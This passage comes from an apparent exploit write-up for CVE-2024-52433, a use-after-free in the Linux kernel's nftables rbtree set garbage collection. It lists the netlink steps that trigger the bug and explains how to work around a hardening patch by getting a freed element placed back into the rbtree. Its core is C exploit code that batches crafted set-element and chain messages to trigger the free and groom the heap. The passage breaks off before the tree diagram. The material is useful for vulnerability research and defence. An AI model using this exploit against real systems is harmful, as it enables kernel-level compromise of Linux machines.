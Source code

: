 - Create a rbtree set `A` with flag `NFT_SET_TIMEOUT` and `NFT_SET_INTERVAL`
- Insert an set element in set `A` with flag `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`  
- Insert another set element in set `A` with flag `NFT_SET_ELEM_INTERVAL_END`(in this step we will finally call `nft_rbtree_gc_elem`)
- Send some error command to trigger function `__nf_tables_abort`

By the way, we need to send the command of step2, step 3 and step 4 together to trigger the vulnerabiltiy.

## Exploit it


### Mitigation

Exploiting CVE-2024-52433 is similar to exploiting CVE-2024-26581. Due to this [patch](https://github.com/thejh/linux/commit/5437982404c326744b3921de112ec1654fc6d20b), we cannot simply exploit the heap vulnerability. Instead, we need to use the `rbtree_remove` function of rbtree to insert the released element into the node of rebtree, just like CVE-2024-28581.

In this article, we will only focus on the different parts of the two exploits, namely how to construct an rbtree and finally place a freed element in the rbtree.


In the process of removing a node from an rbtree, there are the following scenarios: if the node is the left child of its parent and has a non-empty left child node while its right child node is empty, the parent's left child node is replaced with its own left child node. If the node is the right child of its parent and has a non-empty right child node while its left child node is empty, the parent's right child node is replaced with its own right child node.

Based on the above characteristics, I exploit CVE-2024-52433 by following these two key steps:
```c
    //step1: prepare env
    //init rbtree first
    new_set_rbtree_for_timeout(socket,table, rbtree_set, NFT_OBJECT_CT_EXPECT,0x40);
    *key1 = 0x90;
    msg_list[0] = new_setelem_with_expiration_msg(table, rbtree_set, NULL, 0, obj_for_exp, key1, 0x40, NULL, 0, 0, 0xffff000000000000);
    *key1 = 0x80;
    msg_list[1] = new_setelem_with_expiration_msg(table, rbtree_set, NULL, 0, obj_for_exp, key1, 0x40, NULL, 0, 0, 0xffff000000000000);
    *key1 = 0x88;
    msg_list[2] = new_setelem_with_INTERVAL_END_msg(table, rbtree_set, key1, 0x40);
    //step2: trigger the vul
    //Now trigger the vul. We will insert the 0x60 set element in rbtree set after it was freed
    *key1 = 0x70;
    msg_list[0] = new_setelem_with_expiration_msg(table, rbtree_set, NULL, 0, obj_for_exp, key1, 0x40, NULL, 0, 0, 0x0200000000000000);
    *key1 = 0x60;
    msg_list[1] = new_setelem_with_expiration_msg(table, rbtree_set, pad, 0x60, obj_for_exp, key1, 0x40, NULL, 0, 0, 0xffff000000000000);
    
    char *tmp = malloc(0x20);
    for(i=0;i<0x3c0;i++){
    	snprintf(tmp, 0x20, "chain for pad %d", i);
	msg_list[i+2] = new_chain_msg(table, tmp, 0);
    }
    *key1 = 0x78;
    msg_list[0x3c2] = new_setelem_with_INTERVAL_END_msg(table, rbtree_set, key1, 0x40); //gc here
    msg_list[0x3c3] = new_chain_msg("test","test",0);
    send_msg_list(socket, msg_list, 0x3c4);

```
After step 1, we created 3 set elements(I mark these elements by the value in key. Here we assume they are `element A` (element marked by `*key1 = 0x90`), `element B` (element marked by `*key1 = 0x80`), `element C` (element marked by `*key1 = 0x88`)). Below are the positions of these three elements in rbtree: